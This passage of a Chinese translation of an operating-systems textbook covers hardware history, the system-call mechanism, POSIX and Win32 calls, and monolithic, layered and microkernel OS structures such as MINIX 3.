为了把这个观点叙述得更透彻，我们考虑一些例子。早期计算机采用了硬连线指令集。这种指令可由硬件直接执行，且不能改变。然后出现了微程序设计（首先在IBM 360上大规模引入），其中的解释器执行软件中的指令。于是硬连线执行过时了，因为不够灵活。接着发明了RISC计算机，微程序设计（即解释执行）过时了，这是因为直接执行更快。而在通过Internet发送并且到达时才解释的Java小程序形式中，我们又看到了解释执行的复苏。执行速度并不总是关键因素，但由于网络的时间延迟是如此之大，以至于它成了主要因素。这样，钟摆在直接执行和解释之间已经晃动了好几个周期，也许在未来还会再次晃动。
1.大型内存
现在来分析硬件的某些历史发展过程，并看看硬件是如何重复地影响软件的。第一代大型机内存有限。在1959年至1964年之间，称为“山寨王”的IBM 7090或7094满载也只有128KB多的内存。该机器多数用汇编语言编程，为了节省内存，其操作系统用汇编语言编写。
随着时代的前进，在汇编语言宣告过时时，FORTRAN和COBOL一类语言的编译器已经足够好了。但是在第一个商用小型计算机（PDP-1）发布时，却只有4096个18位字的内存，而且令人吃惊的是，汇编语言又回来了。最终，小型计算机获得了更多的内存，而且高级语言也在小型机上盛行起来。
在20世纪80年代早期，微型计算机出现时，第一批机器只有4 KB内存，汇编语言又复活了。嵌入式计算机经常使用和微型计算机一样的CPU芯片（8080、Z80、后来的8086）而且一开始也使用汇编编程。现在，它们的后代，个人计算机拥有大量的内存，使用C、C++、Java和其他高级语言编程。智能卡正在走着类似的发展道路，而且除了确定的大小之外，智能卡通常使用Java解释器，解释执行Java程序，而不是将Java编译成为智能卡的机器语言。
2.保护硬件
早期的IBM 7090/7094一类大型机，没有保护硬件，所以这些机器一次只运行一个程序。一个有问题的程序就可能毁掉操作系统，并且很容易使机器崩溃。在IBM 360发布时，提供了保护硬件的原型，这些机器可以在内存中同时保持若干程序，并让它们轮流运行（多道程序处理）。于是单道程序处理宣告过时。
至少是到了第一个小型计算机出现时——还没有保护硬件——所以多道程序处理也不可能有。尽管PDP-1和PDP-8没有保护硬件，但是PDP-11型机器有了保护硬件，这一特点导致了多道程序处理的应用，并且最终导致UNIX操作系统的诞生。
在建造第一代微型计算机时，使用了Intel 8080 CPU芯片，但是没有保护硬件，这样我们又回到了单道程序处理。直到Intel 80286才增加了保护硬件，于是有了多道程序处理。直到现在，许多嵌入式系统仍旧没有保护硬件，而且只运行单个程序。
现在来考察操作系统。第一代大型机原本没有保护硬件，也不支持多道程序处理，所以这些机器只运行简单的操作系统，一次手工只能装载一个程序。后来，大型机有了保护硬件，操作系统可以同时支持运行多个程序，接着系统拥有了全功能的分时能力。
在小型计算机刚出现时，也没有保护硬件，一次只运行一个手工装载的程序。逐渐地，小型机有了保护硬件，有了同时运行两个或更多程序的能力。第一代微型计算机也只有一次运行一个程序的能力，但是随后具有了多道程序的能力。掌上计算机和智能卡也走着类似的发展之路。
在所有这些案例中，软件的发展是受制于技术的。例如，第一代微型计算机有约4KB内存，没有保护硬件。高级语言和多道程序处理对于这种小系统而言，无法获得支持。随着微型计算机演化成为现代个人计算机，拥有了必要的硬件，从而有了必须的软件处理以支持多种先进的功能。这种演化过程看来还要继续多年。其他的领域也有类似的这种轮回现象，但是在计算机行业中，这种轮回现象似乎变化得更快。
3.硬盘
早期大型机主要是基于磁带的。机器从磁带上读入程序、编译、运行，并把结果写到另一个磁带上。那时没有磁盘也没有文件系统的概念。在IBM于1956年引入第一个磁盘——RAMAC（RAndoM ACcess）之后，事情开始变化。这个磁盘占据4平方米空间，可以存储5百万7位长的字符，这足够存储一张中等分辨率的数字照片。但是其年租金高达35 000美元，比存储占据同样空间数量的胶卷还要贵。不过这个磁盘的价格终于还是下降了，并开始出现了原始的文件系统。
拥有这些新技术的典型机器是CDC 6600，该机器于1964年发布，在多年之内始终是世界上最快的计算机。用户可以通过指定名称的方式创建所谓“永久文件”，希望这个名称还没有被别人使用，比如“data”就是一个适合于文件的名称。这个系统使用单层目录。后来在大型机上开发出了复杂的多层文件系统，MULTICS文件系统可以算是多层文件系统的顶峰。
接着小型计算机投入使用，该机型最后也有了硬盘。1970年在PDP-11上引入了标准硬盘，RK05磁盘，容量为2.5MB，只有IBM RAMAC一半的容量，但是这个磁盘的直径只有40厘米，5厘米高。不过，其原型也只有单层目录。随着微型计算机的出现，CP/M开始成为操作系统的主流，但是它也只是在（软）盘上支持单目录。
4.虚拟内存
虚拟内存（安排在第3章中讨论），通过在RAM和磁盘中反复移动信息块的方式，提供了运行比机器物理内存大的程序能力。虚拟内存也经历了类似的历程，首先出现在大型机上，然后是小型机和微型机。虚拟内存还使得程序可以在运行时动态地链接库，而不是必须在编译时链接。MULTICS是第一个可以做到这点的系统。最终，这个思想传播到所有的机型上，现在广泛用于多数UNIX和Windows系统中。
在所有这些发展过程中，我们看到，在一种环境中出现的思想，随着环境的变化被抛弃（汇编语言设计，单道程序处理，单层目录等），通常在十年之后，该思想在另一种环境下又重现了。由于这个原因，本书中，我们将不时回顾那些在今日的G字节PC机中过时的思想和算法，因为这些思想和算法可能会在嵌入式计算机和智能卡中再现。
我们已经看到操作系统具有两种功能：为用户程序提供抽象和管理计算机资源。在多数情形下，用户程序和操作系统之间的交互处理的是前者，例如，创建、写入、读出和删除文件。对用户而言，资源管理部分主要是透明和自动完成的。这样，用户程序和操作系统之间的交互主要就是处理抽象。为了真正理解操作系统的行为，我们必须仔细地分析这个接口。接口中所提供的调用随着操作系统的不同而变化（尽管基于的概念是类似的）。
这样我们不得不在如下的可能方式中进行选择：（1）含混不清的一般性叙述（“操作系统提供读取文件的系统调用”）；（2）某个特定的系统（“UNIX提供一个有三个参数的read系统调用：一个参数指定文件，一个说明数据应存放的位置，另一个说明应读出多少个字节”）。
我们选择后一种方式。这种方式需要更多的努力，但是它能更多地洞察操作系统具体在做什么。尽管这样的讨论会涉及专门的POSIX（International Standard 9945-1），以及UNIX、System V、BSD、Linux、MINIX3等，但是多数现代操作系统都有实现相同功能的系统调用，尽管它们在细节上差别很大。由于引发系统调用的实际机制是非常依赖于机器的，而且必须用汇编代码表达，所以，通过提供过程库使C程序中能够使用系统调用，当然也包括其他语言。
记住下列事项是有益的。任何单CPU计算机一次只能执行一条指令。如果一个进程正在用户态中运行一个用户程序，并且需要一个系统服务，比如从一个文件读数据，那么它就必须执行一个陷阱或系统调用指令，将控制转移到操作系统。操作系统接着通过参数检查，找出所需要的调用进程。然后，它执行系统调用，并把控制返回给在系统调用后面跟随着的指令。在某种意义上，进行系统调用就像进行一个特殊的过程调用，但是只有系统调用可以进入内核，而过程调用则不能。
为了使系统调用机制更清晰，让我们简要地考察read系统调用。如上所述，它有三个参数：第一个参数指定文件，第二个指向缓冲区，第三个说明要读出的字节数。几乎与所有的系统调用一样，它的调用由C程序完成，方法是调用一个与该系统调用名称相同的库过程：read。由C程序进行的调用可有如下形式：
count=read(fd,buffer,nbytes);
系统调用（以及库过程）在count中返回实际读出的字节数。这个值通常和nbytes相同，但也可能更小，例如，如果在读过程中遇到了文件尾的情形就是如此。
如果系统调用不能执行，不论是因为无效的参数还是磁盘错误，count都会被置为-1，而在全局变量errno中放入错误号。程序应该经常检查系统调用的结果，以了解是否出错。
系统调用是通过一系列的步骤实现的。为了更清楚地说明这个概念，考察上面的read调用。在准备调用这个实际用来进行read系统调用的read库过程时，调用程序首先把参数压进堆栈，如图1-17中步骤1～步骤3所示。

由于历史的原因，C以及C++编译器使用逆序（必须把第一个参数赋给printf（格式字串），放在堆栈的顶部）。第一个和第三个参数是值调用，但是第二个参数通过引用传递，即传递的是缓冲区的地址（由＆指示），而不是缓冲区的内容。接着是对库过程的实际调用（第4步）。这个指令是用来调用所有过程的正常过程调用指令。
在可能是由汇编语言写成的库过程中，一般把系统调用的编号放在操作系统所期望的地方，如寄存器中（第5步）。然后执行一个TRAP指令，将用户态切换到内核态，并在内核中的一个固定地址开始执行（第6步）。TRAP指令实际上与过程调用指令相当类似，它们后面都跟随一个来自远地位置的指令，以及供以后使用的一个保存在栈中的返回地址。
然而，TRAP指令与过程指令存在两个方面的差别。首先，它的副作用是，切换到内核态。而过程调用指令并不改变模式。其次，不像给定过程所在的相对或绝对地址那样，TRAP指令不能跳转到任意地址上。根据机器的体系结构，或者跳转到一个单固定地址上，或者指令中有一8位长的字段，它给定了内存中一张表格的索引，这张表格中含有跳转地址。
跟随在TRAP指令后的内核代码开始检查系统调用编号，然后发出正确的系统调用处理命令，这通常是通过一张由系统调用编号所引用的、指向系统调用处理器的指针表来完成（第7步）。此时，系统调用句柄运行（第8步）。一旦系统调用句柄完成其工作，控制可能会在跟随TRAP指令后面的指令中返回给用户空间库过程（第9步）。这个过程接着以通常的过程调用返回的方式，返回到用户程序（第10步）。
为了完成整个工作，用户程序还必须清除堆栈，如同它在进行任何过程调用之后一样（第11步）。假设堆栈向下增长，如经常所做的那样，编译后的代码准确地增加堆栈指针值，以便清除调用read之前压入的参数。在这之后，原来的程序就可以随意执行了。
在前面第9步中，我们提到“控制可能会在跟随TRAP指令后面的指令中返回给用户空间库过程”，这是有原因的。系统调用可能堵塞调用者，避免它继续执行。例如，如果试图读键盘，但是并没有任何键入，那么调用者就必须被阻塞。在这种情形下，操作系统会查看是否有其他可以运行的进程。稍后，当需要的输入出现时，进程会提醒系统注意，然后步骤9～步骤11会接着进行。
下面几节中，我们将考察一些常用的POSIX系统调用，或者用更专业的说法，考察进行这些系统调用的库过程。POSIX大约有100个过程调用，它们中最重要的过程调用列在图1-18中。为方便起见，它们被分成4类。我们用文字简要地叙述其作用。

从广义上看，由这些调用所提供的服务确定了多数操作系统应该具有的功能，而在个人计算机上，资源管理功能是较弱的（至少与多用户的大型机相比较是这样）。所包含的服务有创建与终止进程，创建、删除、读出和写入文件，目录管理以及完成输入输出。
有必要指出，将POSIX过程映射到系统调用并不是一对一的。POSIX标准定义了构造系统所必须提供的一套过程，但是并没有规定它们是系统调用，是库调用还是其他的形式。如果不通过系统调用就可以执行一个过程（即无须陷入内核），那么从性能方面考虑，它通常会在用户空间中完成。不过，多数POSIX过程确实进行系统调用，通常是一个过程直接映射到一个系统调用上。在有一些情形下，特别是所需要的过程仅仅是某个调用的变体时，此时一个系统调用会对应若干个库调用。
在图1-18中的第一组调用处理进程管理。将有关fork（派生）的讨论作为本节的开始是较为合适的。在UNIX中，fork是惟一可以在POSIX创建进程的途径。它创建一个原有进程的精确副本，包括所有的文件描述符，寄存器等全部内容。在fork之后，原有的进程及其副本（父与子）就分开了。在fork时，所有的变量具有一样的值，虽然父进程的数据被复制用以创建子进程，但是其中一个的后续变化并不会影响到另一个。（由父进程和子进程共享的程序正文，是不可改变的。）fork调用返回一个值，在子进程中该值为零，并且等于子进程的进程标识符，或等于父进程中的PID。使用被返回的PID，就可以在两个进程中看出哪一个是父进程，哪一个是子进程。
多数情形下，在fork之后，子进程需要执行与父进程不同的代码。这里考虑shell的情形。它从终端读取命令，创建一个子进程，等待该子进程执行命令，在该子进程终止时，读入下一条命令。为了等待子进程结束，父进程执行一个waitpid系统调用，它只是等待，直至子进程终止（若有多个子进程存在的话，则直至任何一个子进程终止）。waitpid可以等待一个特定的子进程，或者通过将第一个参数设为-1的方式，从而等待任何一个老的子进程。在waitpid完成之后，将把第二个参数statloc所指向的地址设置为子进程的退出状态（正常或异常终止以及退出值）。有各种可使用的选项，它们由第三个参数确定。
现在考虑shell如何使用fork。在键入一条命令后，shell创建一个新的进程。这个子进程必须执行用户的命令。通过使用execve系统调用可以实现这一点，这个系统调用会引起其整个核心映像被一个文件所替代，该文件由第一个参数给定。（实际上，该系统调用自身是exec系统调用，但是若干个不同的库过程使用不同的参数和稍有差别的名称调用该系统调用。在这里，我们都把它们视为系统调用。）在图1-19中，用一个高度简化的shell说明fork、waitpid以及execve的使用。

在最一般情形下，execve有三个参数：将要执行的文件名称，一个指向变量数组的指针，以及一个指向环境数组的指针。这里对这些参数做一个简要的说明。各种库例程，包括execl、execv、execle以及execve，可以允许略掉参数或以各种不同的方式给定。在本书中，我们在所有涉及的地方使用exec描述系统调用。
下面考虑诸如
cp file1 file2
的命令，该命令将file1复制到file2。在shell创建进程之后，该子进程定位和执行文件cp，并将源文件名和目标文件名传递给它。
cp主程序（以及多数其他C程序的主程序）都有声明
main(argc,argv,envp）
其中argc是该命令行内有关参数数目的计数器，包括程序名称。例如，上面的例子中，argc为3。
第二个参数argv是一个指向数组的指针。该数组的元素i是指向该命令行第i个字串的指针。在本例中，argv[0]指向字串“cp”,argv[1]指向字符串“file1”，argv[2]指向字符串“file2”。
main的第三个参数envp指向环境的一个指针，该环境是一个数组，含有name=value的赋值形式，用以将诸如终端类型以及根目录等信息传送给程序。还有供程序可以调用的库过程，用来取得环境变量，这些变量通常用来确定用户希望如何完成特定的任务（例如，使用默认打印机）。在图1-19中，没有环境参数传递给子进程，所以execve的第三个参数为零。
如果读者认为exec过于复杂，那么也不要失望。这是在POSIX的全部（语义上）系统调用中最复杂的一个，其他的都非常简单。作为一个简单例子，考虑exit，这是在进程完成执行后应执行的系统调用。这个系统调用有一个参数，退出状态（0至255），该参数通过waitpid系统调用中的statloc返回给父进程。
在UNIX中的进程将其存储空间划分为三段：正文段（如程序代码）、数据段（如变量）以及堆栈段。数据段向上增长而堆栈向下增长，如图1-20所示。夹在中间的是未使用的地址空间。堆栈在需要时自动地向中间增长，不过数据段的扩展是显式地通过系统调用brk进行的，在数据段扩充后，该系统调用指定一个新地址。但是，这个调用不是POSIX标准中定义的调用，对于存储器的动态分配，我们鼓励程序员使用malloc库过程，而malloc的内部实现则不是一个适合标准化的主题，因为几乎没有程序员直接使用它，我们有理由怀疑，会有什么人注意到brk实际不是属于POSIX的。

许多系统调用与文件系统有关。本小节讨论在单个文件上的操作，1.6.3节将讨论与目录和整个文件系统有关的内容。
要读写一个文件，先要使用open打开该文件。这个系统调用通过绝对路径名或指向工作目录的相对路径名指定要打开文件的名称，而代码O_RDONLY、O_WRONLY或O_RDWR的含义分别是读、写或两者。为了创建一个新文件，使用O_CREAT参数。然后可使用返回的文件描述符进行读写操作。接着，可以用close关闭文件，这个调用使得该文件描述符在后续的open中被再次使用。
毫无疑问，最常用的调用是read和write。我们在前面已经讨论过read。write具有与read相同的参数。
尽管多数程序频繁地读写文件，但是仍有一些应用程序需要能够随机访问一个文件的任意部分。与每个文件相关的是一个指向文件当前位置的指针。在顺序读（写）时，该指针通常指向要读出（写入）的下一个字节。lseek调用可以改变该位置指针的值，这样后续的read或write调用就可以在文件的任何地方开始。
lseek有三个参数：第一个是文件的描述符，第二个是文件位置，第三个说明该文件位置是相对于文件起始位置、当前位置，还是文件的结尾。在修改了指针之后，lseek所返回的值是文件中的绝对位置。
UNIX为每个文件保存了该文件的类型（普通文件、特殊文件、目录等），大小，最后修改时间以及其他信息。程序可以通过stat系统调用查看这些信息。第一个参数指定了要被检查的文件；第二个参数是一个指针，该指针指向用来存放这些信息的结构。对于一个打开的文件而言，fstat调用完成同样的工作。
本节我们讨论与目录或整个文件系统有关的某些系统调用，而不是1.6.2节中与一个特定文件有关的系统调用。mkdir和rmdir分别用于创建和删除空目录。下一个调用是link。它的作用是允许同一个文件以两个或多个名称出现，多数情形下是在不同的目录中这样做。它的典型应用是，在同一个开发团队中允许若干个成员共享一个共同的文件，他们之中的每个人都在自己的目录中有该文件，但可能采用的是不同的名称。共享一个文件，与每个团队成员都有一个私用副本并不是同一件事，因为共享文件意味着，任何成员所做的修改都立即为其他成员所见——只有一个文件存在。而在复制了一个文件的多个副本之后，对其中一个副本所进行的修改并不会影响到其他的副本。
为了考察link是如何工作的，考虑图1-21a中的情形。有两个用户，ast和jim，每个用户都有一些文件的目录。若ast现在执行一个含有系统调用的程序
link("/usr/jim/memo","usr/ast/note");
在jim目录中的文件memo，以文件名note进入ast的目录。之后，/usr/jim/memo和/usr/ast/note都引用相同的文件。顺便提及，用户是将目录保存在/usr、/user、/home还是其他地方，则完全取决于本地系统管理员的决定。
理解link是如何工作的也许有助于读者看清其作用。在UNIX中，每个文件都有惟一的编号，即i-编号，用以标识文件。该i-编号是对i-节点表格的一个引用，它们一一对应，说明该文件的拥有者，磁盘块的位置等。一个目录就是包含了（i-编号，ASCII名称）对集合的一个文件。在UNIX的第一个版本中，每个目录项有16个字节——2个字节用于i-编号，14个字节用于名称。现在为了支持长文件名，采用了更复杂的结构，但是，在概念上，目录仍然是（i-编号，ASCII名称）对的一个集合。在图1-21中，mail为i-编号16，等等。link所做的只是利用某个已有文件的i-编号，创建一个新目录项（也许用一个新名称）。在图1-21b中两个目录项有相同的i-编号（70），从而指向同一个文件。如果其中某一个文件后来被移走了，使用unlink系统调用，可以保留另一个。如果两个都被移走了，UNIX 00看到尚存在的文件没有目录项（i-节点中的一个域记录着指向该文件的目录项），就会把该文件从磁盘中移去。

正如我们已经叙述过的，mount系统调用允许将两个文件系统合并成为一个。通常的情形是，在硬盘上的根文件系统含有常用命令的二进制（可执行）版和其他常用的文件。用户可在CD-ROM驱动器中插入包含有需要读入文件的CD-ROM盘。
通过执行mount系统调用，可以将一个CD-ROM文件系统添加到根文件系统中，如图1-22所示。完成安装操作的典型C语句为
mount("/dev/fd0","/mnt",0);

这里，第一个参数是驱动器0的块特殊文件名称，第二个参数是要被安装在树中的位置，第三个参数说明将要安装的文件系统是可读写的还是只读的。
在mount调用之后，驱动器0上的文件可以使用从根目录开始的路径或工作目录路径，而不用考虑文件在哪个驱动器上。事实上，第二个、第三个以及第四个驱动器也可安装在树上的任何地方。mount调用使得把可移动介质都集中到一个文件层次中成为可能，而不用考虑文件在哪个驱动器上。尽管这是个CD-ROM的例子，但是也可以用同样的方法安装硬盘或者硬盘的一部分（常称为分区或次级设备），外部硬盘和USB盘也一样。当不再需要一个文件系统时，可以用umount系统调用卸载之。
有各种的系统调用。这里介绍系统调用中的一部分。chdir调用改变当前的工作目录。在调用
chdir("/usr/ast/test");
之后，打开xyz文件，会打开/usr/ast/test/xyz。工作目录的概念消除了总是键入（长）绝对路径名的需要。
在UNIX中，每个文件有一个保护模式。该模式包括针对所有者、组和其他用户的读-写-执行位。chmod系统调用可以改变文件的模式。例如，要使一个文件对除了所有者之外的用户只读，可以执行
chmod("file",0644);
kill系统调用供用户或用户进程发送信号用。若一个进程准备好捕捉一个特定的信号，那么，在信号到来时，运行一个信号处理程序。如果该进程没有准备好，那么信号的到来会杀掉该进程（此调用名称的由来）。
POSIX定义了若干处理时间的过程。例如，time以秒为单位返回当前时间，0对应着1970年1月1日午夜（从此日开始，没有结束）。在一台32位字的计算机中，time的最大值是232 -1秒（假设是无符号整数）。这个数字对应136年多一点。所以在2106年，32位的UNIX系统会发狂，与在2000年造成对世界计算机严重破坏的知名的Y2K问题是类似的。如果读者现在有32位UNIX系统，建议在2106年之前的某时刻更换为64位的系统。
到目前为止，我们主要讨论的是UNIX系统。现在简要地考察Windows。Windows和UNIX的主要差别在于编程方式。一个UNIX程序包括做各种处理的代码以及从事完成特定服务的系统调用。相反，一个Windows程序通常是一个事件驱动程序。其中主程序等待某些事件发生，然后调用一个过程处理该事件。典型的事件包括被敲击的键、移动的鼠标、被按下的鼠标或插入的CD-ROM。调用事件处理程序处理事件，刷新屏幕，并更新内部程序状态。总之，这是与UNIX不同的程序设计风格，由于本书专注于操作系统的功能和结构，这些程序设计方式上的差异就不过多涉及了。
当然，在Windows中也有系统调用。在UNIX中，系统调用（如read）和系统调用所使用的库过程（如read）之间几乎是一一对应的关系。换句话说，对于每个系统调用，差不多就涉及一个被调用的库过程，如图1-17所示。此外，POSIX有约100个过程调用。
在Windows中，情况就大不相同了。首先，库调用和实际的系统调用是几乎不对应的。微软定义了一套过程，称为应用编程接口（Application Program Interface，Win32 API），程序员用这套过程获得操作系统的服务。从Windows 95开始的所有Windows版本都（或部分）支持这个接口。由于接口与实际的系统调用不对应，微软保留了随着时间（甚至随着版本到版本）改变实际系统调用的能力，防止使已有的程序失效。由于Windows 2000、Windows XP和Windows Vista中有许多过去没有的新调用，所以究竟Win32是由什么构成的，这个问题的答案仍然是含混不清的。在本节中，Win32表示所有Windows版本都支持的接口。
Win32 API调用的数量是非常大的，数量有数千个。此外，尽管其中许多确实涉及系统调用，但有一大批Win32 API完全是在用户空间进行。结果，在Windows中，不可能了解哪一个是系统调用（如由内核完成），哪一个只是用户空间中的库调用。事实上，在某个版本中的一个系统调用，会在另一个不同版本中的用户空间中执行，或者相反。当我们在本书中讨论Windows的系统调用时，将使用Win32过程（在合适之处），这是因为微软保证：随着时间流逝，Win32过程将保持稳定。但是读者有必要记住，它们并不全都是系统调用（即陷入到内核中）。
Win32 API中有大量的调用，用来管理视窗、几何图形、文本、字型、滚动条、对话框、菜单以及GUI的其他功能。为了使图形子系统在内核中运行（某些Windows版本中确实是这样，但不是所有的版本），需要系统调用，否则只有库调用。在本书中是否应该讨论这些调用呢？由于它们并不是同操作系统的功能相关，我们还是决定不讨论它们，尽管它们会在内核中运行。对Win32 API有兴趣的读者应该参阅一些书籍中的有关内容，（例如，Hart，1997；Rector和Newcomer，1997；Simon，1997）。
我们在这里介绍所有的Win32 API，不过这不是我们关心问题的所在，所以我们做了一些限制，只将那些与图1-18中UNIX系统调用大致对应的Windows调用列在图1-23中。

下面简要地说明一下图1-23中表格的内容。CreateProcess为创建一个新进程，它把UNIX中的fork和execve结合起来。它有许多参数用来指定新创建进程的性质。Windows中没有类似UNIX中的进程层次，所以不存在父进程和子进程的概念。在进程创建之后，创建者和被创建者是平等的。WaitForSingleObject用于等待一个事件，等待的事件可以是多种可能的事件。如果有参数指定了某个进程，那么调用者等待所指定的进程退出，这通过使用ExitProcess完成。
接着的六个调用进行文件操作，在功能上和它们的UNIX对应调用类似，尽管在参数和细节上它们都是不同的。和在UNIX中一样，文件可被打开、关闭和写入。SetFilePointer以及GetFileAttributesEx调用设置文件的位置并取得文件的一些属性。
Windows中有目录，目录可以分别用CreateDirectory以及RemoveDirectory API调用创建和删去。也有对当前目录的标记，这可以通过SetCurrentDirectory来设置。使用GetLocalTime可获得当前时间。
Win32接口中没有文件的链接、文件系统的安装、安全属性或信号，所以对应于UNIX中的这些调用就不存在了。当然，Win32中也有大量的在UNIX中不存在的其他调用，特别是管理GUI的种种调用。不过在Windows Vista中有了精心设计的安全系统，而且也支持文件的链接。
也许有必要对Win32做一个最后的说明。Win32并不是非常统一的或有一致的接口。其主要原因是由于Win32需要与早期的在Windows 3.x中使用的16位接口向后兼容。
我们已经分析了操作系统的外部（如，程序员接口），现在是分析其内部的时候了。在下面的小节中，为了对各种可能的方式有所了解，我们将考察已经尝试过的六种不同的结构设计。这样做并没有穷尽各种结构方式，但是至少给出了在实践中已经试验过的一些设计思想。这六种设计是，单体系统、层次系统、微内核、客户机-服务器系统、虚拟机和exokernels等。
到目前为止，在多数常见的组织形式的处理方式中，全部操作系统在内核态中以单一程序的方式运行。整个操作系统以过程集合的方式编写，链接成一个大型可执行二进制程序。使用这种技术，系统中每个过程可以自由调用其他过程，只要后者提供了前者所需要的一些有用的计算工作。这些可以不受限制彼此调用的成千个过程，常常导致出现一个笨拙和难于理解的系统。
在使用这种处理方式构造实际的目标程序时，首先编译所有单个的过程，或者编译包含过程的文件，然后通过系统链接程序将它们链接成单一的目标文件。依靠对信息的隐藏处理，不过在这里实际上是不存在的，每个过程对其他过程都是可见的（相反的构造中有模块或包，其中多数信息隐藏在模块之中，而且只能通过正式设计的入口点实现模块的外部调用）。
但是，即使在单体系统中，也可能有一些结构存在。可以将参数放置在良好定义的位置（如，栈），通过这种方式，向操作系统请求所能提供的服务（系统调用），然后执行一个陷阱指令。这个指令将机器从用户态切换到内核态并把控制传递给操作系统，如图1-17中第6步所示。然后，操作系统取出参数并且确定应该执行哪一个系统调用。随后，它在一个表格中检索，在该表格的k槽中存放着指向执行系统调用k过程的指针（图1-17中第7步）。
对于这类操作系统的基本结构，有着如下结构上的建议：
1)需要一个主程序，用来处理服务过程请求。
2)需要一套服务过程，用来执行系统调用。
3)需要一套实用过程，用来辅助服务过程。在该模型中，每一个系统调用都通过一个服务过程为其工作并运行之。要有一组实用程序来完成一些服务过程所需要用到的功能，如从用户程序取数据等。可将各种过程划分为一个三层的模型，如图1-24所示。

除了在计算机初启时所装载的核心操作系统外，许多操作系统支持可装载的扩展，诸如I/O设备驱动和文件系统。这些部件可以按照需要载入。
把图1-24中的系统进一步通用化，就变成一个层次式结构的操作系统，它的上层软件都是在下一层软件的基础之上构建的。E.W.Dijkstra和他的学生在荷兰的Eindhoven技术学院所开发的THE系统（1968），是按此模型构造的第一个操作系统。THE系统是为荷兰的一种计算机，Electrologica X8，配备的一个简单的批处理系统，其内存只有32K个字，每字27位（二进制位在那时是很昂贵的）。
该系统共分为六层，如图1-25所示。处理器分配在第0层中进行，当中断发生或定时器到期时，由该层进行进程切换。在第0层之上，系统由一些连续的进程所组成，编写这些进程时不用再考虑在单处理器上多进程运行的细节。也就是说，在第0层中提供了基本的CPU多道程序功能。

内存管理在第1层中进行，它分配进程的主存空间，当内存用完时则在一个512K字的磁鼓上保留进程的一部分（页面）。在第1层上，进程不用考虑它是在磁鼓上还是在内存中运行。第1层软件保证一旦需要访问某一页面时，该页面必定已在内存中。
第2层处理进程与操作员控制台（即用户）之间的通信。在这层的上部，可以认为每个进程都有自己的操作员控制台。第3层管理I/O设备和相关的信息流缓冲区。在第3层上，每个进程都与有良好特性的抽象I/O设备打交道，而不必考虑外部设备的物理细节。第4层是用户程序层。用户程序不用考虑进程、内存、控制台或I/O设备管理等细节。系统操作员进程位于第5层中。
在MULTICS系统中采用了更进一步的通用层次化概念。MULTICS由许多的同心环构造而成，而不是采用层次化构造，内层环比外层环有更高的级别（它们实际上是一样的）。当外环的过程欲调用内环的过程时，它必须执行一条等价于系统调用的TRAP指令。在执行该TRAP指令前，要进行严格的参数合法性检查。在MULTICS中，尽管整个操作系统是各个用户进程的地址空间的一部分，但是硬件仍能对单个过程（实际是内存中的一个段）的读、写和执行进行保护。
实际上，THE分层方案只是为设计提供了一些方便，因为该系统的各个部分最终仍然被链接成了完整的单个目标程序。而在MULTICS里，环形机制在运行中是实际存在的，而且是由硬件实现的。环形机制的一个优点是很容易扩展，可用以构造用户子系统。例如，在一个MULTICS系统中，教授可以写一个程序检查学生们编写的程序并给他们打分，在第n个环中运行教授的程序，而在第n+1个环中运行学生的程序，这样学生们就无法篡改教授所给出的成绩。
在分层方式中，设计者要确定在哪里划分内核-用户的边界。在传统上，所有的层都在内核中，但是这样做没有必要。事实上，尽可能减少内核态中功能的做法更好，因为内核中的错误会快速拖累系统。相反，可以把用户进程设置为具有较小的权限，这样，某一个错误的后果就不会是致命的。
有不少研究人员对每千行代码中错误的数量进行了分析（例如，Basilli和Perricone，1984；Ostrand和Weyuker，2002）。代码错误的密度取决于模块大小、模块寿命等，不过对一个实际工业系统而言，每千行代码中会有10个错误。这意味着在有5百万行代码的单体操作系统中，大约有50 000个内核错误。当然，并不是所有的错误都是致命的，诸如给出了不正确的故障信息之类的某些错误，实际是很少发生的。无论怎样看，操作系统中充满了错误，所以计算机制造商设置了复位按钮（通常在前面板上），而电视机、立体音响以及汽车的制造商们则不这样做，尽管在这些装置中也有大量的软件。
在微内核设计背后的思想是，为了实现高可靠性，将操作系统划分成小的、良好定义的模块，只有其中一个模块——微内核——运行在内核态上，其余的模块，由于功能相对弱些，则作为普通用户进程运行。特别地，由于把每个设备驱动和文件系统分别作为普通用户进程，这些模块中的错误虽然会使这些模块崩溃，但是不会使得整个系统死机。所以，在音频驱动中的错误会使声音断续或停止，但是不会使整个计算机垮掉。相反，在单体系统中，由于所有的设备驱动都在内核中，一个有故障的音频驱动会很容易引起对无效地址的引用，从而造成恼人的系统立即停机。
有许多微内核已经实现并投入应用（Accetta等人，1986；Kirsch等人，2005；Heiser等人，2006；Herder等人，2006；Hildebrand，1992；Haertig等人，1997；Liedtke，1993，1995，1996；Pike等人，1992；Zuberi等人，1999）。微内核在实时、工业、航空以及军事应用中特别流行，这些领域都是关键任务，需要有高度的可靠性。知名的微内核有Integrity、K42、L4、PikeOS、QNX、Symbian，以及MINIX 3等。这里对MINIX 3做一简单的介绍，该操作系统把模块化的思想推到了极致，它将大部分操作系统分解成许多独立的用户态进程。MINIX 3遵守POSIX，可在www.minix3.org（Herder等人，2006a；Herder等人，2006b）站点获得免费的开放源代码。
MINIX 3微内核只有3200行C语言代码和800行用于非常低层次功能的汇编语言代码，诸如捕捉中断、进程切换等。C代码管理和调度进程、处理进程间通信（在进程之间传送信息）、提供大约35个内核调用，它们使得操作系统的其余部分可以完成其工作。这些调用完成诸如连接中断句柄、在地址空间中移动数据以及为新创建的进程安装新的内存映像等。MINIX 3的进程结构如图1-26所示，其中内核调用的句柄用Sys标记。时钟设备驱动也在内核中，因为这个驱动与调度器交互密切。所有的其他设备驱动都作为单独的用户进程运行。

在内核的外部，系统的构造有三层进程，它们都在用户态中运行。最底层中包含设备驱动器。由于它们在用户态中运行，所以不能物理地访问I/O端口空间，也不能直接发出I/O命令。相反，为了能够对I/O设备编程，驱动器构建了一个结构，指明哪个参数值写到哪个I/O端口，并生成一个内核调用，通知内核完成写操作。这个处理意味着内核可以检查驱动正在对I/O的读（或写）是否是得到授权使用的。这样，（与单体设计不同），一个有错误的音频驱动器就不能够偶发性地在硬盘上进行写操作。
在驱动器上面是另一用户态层，包含有服务器，它们完成操作系统多数的工作。有一个或多个文件服务器管理着文件系统，进程管理器创建、破坏和管理进程等。通过给服务器发送短消息请求POSIX系统调用的方式，用户程序获得操作系统的服务。例如，一个需要调用read的进程发送一个消息给某个文件服务器，告知它需要读什么内容。
有一个有趣的服务器，称为再生服务器（reincarnation server），其任务是检查其他服务器和驱动器的功能是否正确。一旦检查出一个错误，它自动取代之，无须任何用户的干预。这种方式使得系统具有自修复能力，并且获得了较高的可靠性。
